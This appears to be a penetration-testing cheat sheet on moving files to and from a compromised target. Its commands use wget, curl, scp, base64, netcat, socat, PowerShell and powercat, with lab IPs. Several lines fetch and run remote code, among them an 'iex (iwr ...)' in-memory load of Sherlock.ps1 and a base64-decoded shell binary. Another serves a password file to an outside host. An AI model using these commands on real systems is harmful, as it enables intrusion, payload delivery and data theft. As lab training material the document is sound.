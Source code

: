 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)

```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
